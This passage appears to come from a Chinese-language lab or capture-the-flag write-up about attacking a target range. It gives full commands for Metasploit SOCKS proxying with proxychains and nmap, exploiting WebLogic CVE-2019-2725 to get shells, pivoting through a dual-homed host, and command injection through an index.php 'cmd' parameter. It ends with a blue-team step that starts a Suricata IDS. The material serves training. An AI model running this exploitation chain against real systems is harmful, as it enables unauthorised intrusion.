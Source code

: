     20. use auxiliary/server/socks_proxy      #选定该代理模块
    21. run -j       					   # 使用默认设置，监听0.0.0.0，即本地所有ip地址的1080端口
    22. sudo lsof -i tcp:1080 -l -n -P
    23. sudo sed -i.bak -r "s/socks4\s+127.0.0.1\s+9050/socks5 127.0.0.1 1080/g" /etc/proxychains4.conf    #配置本地主机的 proxychains 代理链，**这是个代理管理工具，本身不提供服务，以此就可以在workspace外访问目标靶机**
    24. proxychains sudo nmap -vv -n -p 7001 -Pn -sT 192.170.84.2-5   #使用代理下的 nmap 扫描

![](https://cdn.nlark.com/yuque/0/2025/png/36224524/1746870651728-0758bd31-c42b-4358-a345-6360d748663a.png)

端口扫描被防火墙拦截。但是以下的网络请求靶机有正常相应，说明端口 7001 确实开了

```bash
proxychains curl -v "http://192.170.84.3:7001/console"   # WebLogic 服务器默认管理控制台
```

<h3 id="yzOkF">攻击靶标234</h3>
    25. 对靶标 234 进行批量攻击

```bash
search cve-2019-2725
use 0
show options
set RHOSTS 192.170.84.2  # 分别设置，分别获取shell
set lhost 192.168.56.214
run -j
sessions -c "ls /tmp" -i 3,4,5  # -c执行代码,拿到234的flag
```

![](https://cdn.nlark.com/yuque/0/2025/png/36224524/1746875577726-6882a85f-6915-416f-963b-417ac5d4b6da.png)

<h3 id="fRH3f"> 建立跳板，并对靶机5进行攻击</h3>
    26. 之后依次进入拿到的 shell 中，输入 ifconfig 察看网络信息，192.170.84.3 的主机中中发现为双网卡，暴露出深层次内网，接下来进行升级 shell ，搭建虚拟路由。
    27. 然后使用 scanner/portscan/tcp 模块进行扫描，发现主机 192.171.20.2:80 存活
    28. ![](https://cdn.nlark.com/yuque/0/2025/png/36224524/1746880430086-03fe67fb-96cb-438f-b2c4-b634592c0215.png)
    29. 接着进入跳板机，对其进行 http 请求，得到提示可以在 url 上添加参数（这里给 url 加上双引号，防止 url 被 shell 误解释）

```bash
2025-05-10 12:23:13 (1.84 MB/s) - '/tmp/result' saved [21]
index.php?cmd=ls /tmp
wget http://192.171.20.2/index.php?cmd=ls /tmp
--2025-05-10 12:24:06--  http://192.171.20.2/index.php?cmd=ls
Connecting to 192.171.20.2:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: unspecified [text/html]
Saving to: 'index.php?cmd=ls'
#构造payload，执行得到flag
wget "http://192.171.20.2/index.php?cmd=ls /tmp" -O /tmp/result && cat /tmp/result
```

<h2 id="Wrc7L">蓝方：</h2>
<h3 id="sy4Rk"><font style="color:rgb(34, 34, 34);">漏洞利用docker中经过eth1网卡的流量检测</font></h3>
        1. <font style="color:rgba(0, 0, 0, 0.85);">Suricata 是一款开源、高性能的网络分析和威胁检测软件，可用于网络入侵检测（IDS）、入侵防御（IPS）以及网络安全监控</font>）

```plain
docker run -d --name suricata --net=host -e SURICATA_OPTIONS="-i eth1" jasonish/suricata:6.0.4   
```
